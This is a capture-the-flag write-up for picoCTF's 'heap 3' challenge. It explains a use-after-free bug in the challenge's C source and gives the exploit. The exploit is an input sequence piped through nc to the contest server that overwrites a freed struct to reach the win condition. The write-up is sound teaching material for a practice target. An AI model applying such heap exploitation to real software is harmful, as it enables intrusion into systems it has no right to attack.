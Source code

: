 # heap 3 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap #useafterfree #writewhatwhere`

## Description ##

This program mishandles memory. Can you exploit it to get the flag?

## Approach ##

Inspecting the provided `chall.c` source file, we can see the `init()` function called from `main()` at the start of execution, allocates an `object` data structure to global variable `x` and sets the `x->flag` member variable to `"bico"`.

    typedef struct {
      char a[10];
      char b[10];
      char c[10];
      char flag[5];
    } object;

    object *x;

The `check_win()` function invoked from the `"Check for win"` menu item (`4`), checks the `x->flag` for a values of `"pico"` as the win condition to read and display the flag file.

Further analysis finds that the `"Free x"` menu item (`5`) invokes the `free_memory()` function, which frees the memory allocated to the global variable `x`, however `x` is not modified and hence left a dangling pointer.

The `"Allocate object"` menu item (`2`) invoked the `alloc_object()` function, which prompts the user for the size of the object to allocate, and allocates this amount via `malloc()` to a local variable `alloc`. It then prompts the user for data to write to the newly allocated buffer in an unbounded fashion.

These two functions allow for a User After Free (UAF) based 'write-what-where' primative attack, as `x` is continued to be used after free by the likes of `check_win()` and we know if we allocate the same size block when invoking `alloc_object()` then tcache will return the freed `x` buffer, which we conveniently get the opportunity to write whatever data we want, such as the win condition required by `check_win()`.

## Solution ##

The final solution and construction of the corresponding input buffer:
- Free `x` using menu item 5 = `"5\n"`
- Allocate a new object using menu item 2 = `"2\n"`
- Select the size of the new object, as the same size as the `object` data structure, which is 35 bytes = `"35\n"`
- Fill the first three members of the structure `a`, `b` and `c` with dummy data, totalling 30 bytes = `"A"*30`
- Append our win condition value for the `flag` member variable, which completes the data to write input string = `"pico\n"`
- Finally check for a win and dump the flag using menu item 4 = `"4\n"`

Which when all put together yields the following output :

    $ echo $(python3 -c 'print("5\n2\n35\n" + "A"*30 + "pico\n4\n")') | nc tethys.picoctf.net 52112

    freed but still in use
    now memory untracked
    do you smell the bug?

    1. Print Heap
    2. Allocate object
    3. Print x->flag
    4. Check for win
    5. Free x
    6. Exit

    Enter your choice: 
    1. Print Heap
    2. Allocate object
    3. Print x->flag
    4. Check for win
    5. Free x
    6. Exit

    Enter your choice: Size of object allocation: Data for flag: 
    1. Print Heap
    2. Allocate object
    3. Print x->flag
    4. Check for win
    5. Free x
    6. Exit

    Enter your choice: YOU WIN!!11!!
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.
